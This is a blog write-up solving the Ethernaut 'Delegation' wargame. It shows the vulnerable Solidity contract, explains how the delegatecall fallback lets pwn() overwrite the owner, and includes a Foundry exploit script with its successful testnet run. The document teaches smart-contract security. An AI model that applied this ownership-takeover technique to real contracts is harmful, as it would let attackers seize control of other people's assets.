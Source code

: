 ```yaml
---
layout: post
title: "[Ethernaut] Delegation"
tags: blockchain ethernaut foundry
---
```


# Analysis

---
The goal is

1. claim ownership

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {
    address public owner;

    constructor(address _owner) {
        owner = _owner;
    }

    function pwn() public {
        owner = msg.sender;
    }
}

contract Delegation {
    address public owner;
    Delegate delegate;

    constructor(address _delegateAddress) {
        delegate = Delegate(_delegateAddress);
        owner = msg.sender;
    }

    fallback() external {
        (bool result,) = address(delegate).delegatecall(msg.data);
        if (result) {
            this;
        }
    }
}
```

The `fallback()` function in the Delegation contract performs `delegatecall()` to the Delegate contract.

The Delegation contract's state can be changed by caliing the `pwn()` function in Delegate contract via `delegatecall()`.

`msg.sender` in the Delegate contract will be EOA because the call is made by using `delegationcall()`.

# Exploit

---

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../src/Delegation.sol";
import "forge-std/Script.sol";
import "forge-std/console.sol";

contract DelegationSol is Script {
    Delegation public delegation_ = Delegation(0x604BD638031054664E87618f46871c5423E9cbFF);

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

        address(delegation_).call(abi.encodeWithSignature("pwn()"));
        console.log("owner: ", delegation_.owner());

        vm.stopBroadcast();
    }
}
```

```bash
$ forge script script/DelegationSol.sol --broadcast
[⠊] Compiling...
[⠰] Compiling 1 files with Solc 0.8.29
[⠔] Solc 0.8.29 finished in 280.67ms
Compiler run successful with warnings:
Warning (9302): Return value of low-level calls not used.
  --> script/DelegationSol.sol:14:9:
   |
14 |         address(delegation_).call(abi.encodeWithSignature("pwn()"));
   |         ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Script ran successfully.

== Logs ==
  owner:  0x6f5Ad1E6F1a624E4Ad37f0B7D6f100ab1Db29514

## Setting up 1 EVM.

==========================

Chain 17000

Estimated gas price: 0.001000019 gwei

Estimated total gas used for script: 43100

Estimated amount required: 0.0000000431008189 ETH

==========================

##### holesky
✅  [Success] Hash: 0xd749896a13ac87778efd535f37a37c59d6b88fedeb517b326aa83c0af160e8fd
Block: 3677303
Paid: 0.000000031204249632 ETH (31204 gas * 0.001000008 gwei)

✅ Sequence #1 on holesky | Total Paid: 0.000000031204249632 ETH (31204 gas * avg 0.001000008 gwei)

==========================

ONCHAIN EXECUTION COMPLETE & SUCCESSFUL.
```

![Image complete]({{site.url}}/images/2025-04-18-Delegation/complete.png)